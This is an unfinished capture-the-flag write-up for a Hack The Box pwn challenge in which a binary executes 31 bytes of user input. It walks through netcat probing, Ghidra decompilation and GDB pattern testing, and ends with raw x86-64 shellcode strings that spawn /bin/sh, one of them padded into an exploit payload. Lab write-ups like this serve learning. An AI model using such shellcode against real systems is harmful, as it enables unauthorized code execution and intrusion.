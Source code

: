 # ElTeteo

## FLAG: HTB{}

## Status: Incomplete

+ DOCKER: Yes
+ DOWNLOADABLE: Yes

Description: El Teteo, a mischievous ghostly djinni born with a party spirit. You have one chance to summon it and make your wish—but only if it’s in the mood to grant it.

## NOTES

1. Deploy docker
   1. IP:94.237.56.31
   2. PORT:55106
2. Unzip challenge files
   1. > unzip pwn_el_teteo.zip
3. RUN
   1. Lets connect to this just to see what we are working with
      1. > nc 94.237.56.31 55106
         1. "[!] I will do whatever you want, nice or naughty.."
            1. > Nice
               1. No response
            2. > Naughty
               1. No resposne
4. GHIDRA
   1. Lets open this in ghidra and take a look at the code to see if we can see where the vulnerability is at?
   2. Functions
      1. MAIN()

        ```c
            undefined8 main(void)

            {
            **I REMOVED ALL THE VARIABLES THAT CREATED THE BANNER**
            ...
            ...
            ...
            printf(&DAT_00102058,local_a8[iVar32 % 6],puVar31,puVar30,puVar29,puVar28,puVar27,puVar26,puVar25,
                    puVar24,puVar23,puVar22,puVar21,puVar20,puVar19,puVar18,puVar17,puVar16,puVar15,puVar14,
                    puVar13,puVar12,puVar11,puVar10,puVar9,puVar8,puVar7,puVar6,puVar5,puVar4,puVar3,puVar2,
                    puVar1);
            printstr("[!] I will do whatever you want, nice or naughty..\n\n> ");
            local_68 = 0;
            local_60 = 0;
            local_58 = 0;
            local_50 = 0;
            read(0,&local_68,0x1f);
            (*(code *)&local_68)();
            if (local_40 != *(long *)(in_FS_OFFSET + 0x28)) {
                                /* WARNING: Subroutine does not return */
                __stack_chk_fail();
            }
            return 0;
            }
        ```

        1. Sooo one of the main things I see is:
           1. read(0,&local_68,0x1f);
              1. This tells me that we are reading in local_68 and 31 bytes of data since 0x1f = 31 in decimal
5. GDB & GEF
   1. Lets open the binary in GDB
      1. > gdb ./el_teteo
      2. > pattern create 128
         1. aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaa
      3. > run
         1. Undefined command: "aeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaa".
         2. So we can tell by the difference in characters that only "aaaaaaaabaaaaaaacaaaaaaadaaaaaa" was taken
            1. The first part is 31 -> which is reassuring because that is the value of 0x1f we saw earlier
6. PAYLOAD
   1. So we only have 31 bytes
   2. The Revshell is 27 bytes
   3. That leaves us 4 bytes
   4. So lets craft our payload with 4 A's and then our revshell
      1. "AAAA\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"


shellcode = "\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"


TOTAL = 31 
/bin/sh = 7 bytes


